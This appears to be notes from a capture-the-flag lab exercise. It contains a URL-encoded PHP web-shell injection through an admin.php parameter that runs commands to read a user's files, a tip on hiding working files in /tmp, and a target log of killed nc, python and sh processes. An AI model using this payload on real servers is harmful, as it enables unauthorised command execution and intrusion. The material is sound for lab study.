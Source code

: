 ```
peda keeps commads history in the working dir...you should make a dir in /tmp and work from there
keep in mind that tmp is not listable,so other users cannot see your files and folders (if you dont use extrmely simple names)
```

```
http://10.10.10.27/admin.php?html=%3C%3Fphp++if(isset(%24_REQUEST[%27cmd%27])){+++++++++echo+%22%3Cpre%3E%22%3B+++++++++%24cmd+%3D+(%24_REQUEST[%27cmd%27])%3B+++++++++system(%24cmd)%3B+++++++++echo+%22%3C%2Fpre%3E%22%3B+++++++++die%3B+}++%3F%3E&cmd=cat+%2Fhome%2Fxalvas%2Fintrusions
```

```
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2017-06-28 04:55:42.796288
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2017-06-28 05:22:11.228988
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2017-06-28 05:23:23.424719
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2017-06-29 02:43:57.083849
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS python     ...PROCESS KILLED AT 2017-06-29 02:48:47.909739
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS sh         ...PROCESS KILLED AT 2017-06-29 06:25:04.202315
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS sh         ...PROCESS KILLED AT 2017-06-29 06:25:04.780685
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS python     ...PROCESS KILLED AT 2017-06-29 06:25:06.209358
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc        ...PROCESS KILLED AT 2017-06-29 12:15:32.329358
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc        ...PROCESS KILLED AT 2017-06-29 12:15:32.330115
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc        ...PROCESS KILLED AT 2017-06-29 12:16:10.508710
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc        ...PROCESS KILLED AT 2017-06-29 12:16:10.510537
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS python3    ...PROCESS KILLED AT 2017-12-24 10:30:28.836132
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2017-12-25 00:35:06.831325
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2017-12-25 00:38:06.450972
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2017-12-25 00:38:26.640503
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2017-12-25 00:44:43.524795
```

```
http://10.10.10.27/admin.php?html=%3C%3Fphp++if(isset(%24_REQUEST[%27cmd%27])){+++++++++echo+%22%3Cpre%3E%22%3B+++++++++%24cmd+%3D+(%24_REQUEST[%27cmd%27])%3B+++++++++system(%24cmd)%3B+++++++++echo+%22%3C%2Fpre%3E%22%3B+++++++++die%3B+}++%3F%3E&cmd=ls+-l+%2Fhome%2Fxalvas%2Fpeda
```
